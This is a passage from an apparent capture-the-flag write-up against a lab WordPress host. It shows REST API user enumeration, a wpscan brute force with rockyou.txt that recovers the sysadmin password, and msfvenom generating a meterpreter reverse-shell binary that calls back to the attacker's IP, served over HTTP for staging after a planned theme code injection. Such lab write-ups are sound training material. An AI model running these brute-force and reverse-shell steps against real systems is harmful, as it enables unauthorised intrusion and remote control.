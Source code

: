 ```
m3dsec@local:~/forbusinessreasons.thm$ curl -s http://milkco.thm/wp-json/wp/v2/users/1|gron
json = {};
json._links = {};
json._links.collection = [];
json._links.collection[0] = {};
json._links.collection[0].href = "http:/wp-json/wp/v2/users";
json._links.self = [];
json._links.self[0] = {};
json._links.self[0].href = "http:/wp-json/wp/v2/users/1";
json.avatar_urls = {};
json.avatar_urls["24"] = "http://1.gravatar.com/avatar/7708603a80dcf700cae59574c671e047?s=24&d=mm&r=g";
json.avatar_urls["48"] = "http://1.gravatar.com/avatar/7708603a80dcf700cae59574c671e047?s=48&d=mm&r=g";
json.avatar_urls["96"] = "http://1.gravatar.com/avatar/7708603a80dcf700cae59574c671e047?s=96&d=mm&r=g";
json.description = "";
json.id = 1;
json.link = "http:/author/sysadmin/";
json.meta = [];
json.name = "sysadmin";
json.slug = "sysadmin";
json.url = "http://10.1.33.8";
```

using the wpscan tool, i attempted to bruteforce the login credentials of wordpress, and i did successfully bruteforce the sysadmin user credentials.

```
m3dsec@local:~/forbusinessreasons.thm$ wpscan --url http://milkco.thm/ -U sysadmin -P /usr/share/wordlists/rockyou.txt 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - sysadmin / mi*******                                                                                                                                      
Trying sysadmin / kenzie Time: 00:03:17 <=-=-=                                                                    > (1665 / 14346057)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: sysadmin, Password: mi*******
```

with the retrived credentials, we can inject malicious code in WP_Theme therefor get Remote code execution on the target Host, using this aproach, 

i will be injecting a simple php code, that will help us stage our meterpreter reverse shell binary on the target host, give it the required permission, then execute it.

generate a meterpreter reverse shell linux binary, and host it.
```
m3dsec@local:~/forbusinessreasons.thm/bin$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.123.226 LPORT=4444 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

m3dsec@local:~/forbusinessreasons.thm/bin$ sudo python3 -m http.server 80
[sudo] password for m3dsec: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
